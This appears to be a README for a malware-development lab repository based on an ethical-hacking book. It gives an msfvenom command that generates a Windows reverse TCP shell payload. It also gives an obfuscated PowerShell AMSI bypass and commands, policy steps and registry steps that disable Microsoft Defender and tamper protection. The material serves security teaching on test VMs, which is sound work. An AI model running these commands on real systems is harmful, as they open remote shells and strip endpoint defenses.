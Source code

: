 # Tools
- [Process Hacker](https://processhacker.sourceforge.io/)
- Kali VM 
- Windows 11 or 10 VM
- Parrot 


# Before getting started
You might need to generate the payload in `Kali`.
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<YOUR_IP_ADDR> LPORT=4444 -f c
```
![payload](./Screenshots/01.png)

# Turn off the defender

## Step 01
`Windows 10` or lower version should be fine after this step, but if you are testing in `Window 11+`, I recommend you to go through step 2 and 3 as well.
```powershell

Set-MpPreference -DisableIOAVProtection $true
Set-MpPreference -DisableRealtimeMonitoring $true
[Ref].Assembly.GetType('System.Management.Automation.'+$("41 6D 73 69 55 74 69 6C 73".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result=$result+$_};$result)).GetField($("61 6D 73 69 49 6E 69 74 46 61 69 6C 65 64".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result2=$result2+$_};$result2),'NonPublic,Static').SetValue($null,$true)
```
![](./Screenshots/02.png)

## Step 02
```powershell
# WIN + R
gpedit.msc
```
- In the `Group Policy Editor`, go to `Computer Configuration` > `Administrative Templates` > `Windows Components` > `Microsoft Defender Antivirus`.

- Navigate to `Computer Configuration` > `Administrative Templates` > `Windows Components` > `Microsoft Defender Antivirus` > `Tamper Protection`.
- Enable the policy named Turn off `Tamper Protection`.

- Find the policy named Turn off `Microsoft Defender Antivirus`.
- Double-click it, set it to `Enabled`, and then click `Apply` and `OK`.

- Go to `Real-time Protectio`n under the `Microsoft Defender Antivirus settings`.
- Find Turn off `real-time protection` and set it to `Enabled`
![](./Screenshots/03.png)

## Step 03
```powershell
# WIN + R 
regedit
```
Go to `HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender`
### Then setup as follows:
- DisableAntiSpyware = 1
- DisableRoutinelyTakingAction = 1
- ServiceStartStates = 4

# Run Powershell as an administrator
```powershell
Start-Process powershell -Verb runAs

# Run the command prompt

powershell -Command "Start-Process cmd -Verb RunAs"

```

---

# References
- Most of codes are from [Malware-Development-for-Ethical-Hackers
](https://github.com/PacktPublishing/Malware-Development-for-Ethical-Hackers) by Zhassulan Zhussupov, 2024.
- cocomelonc (Zhassulan Zhussupov) (2021) https://cocomelonc.github.io/ (blog).
- [DLL Hijacking Basics](https://medium.com/@zapbroob9/dll-hijacking-basics-ea60b0f2a1d8) by Enes Adışen, 2023.


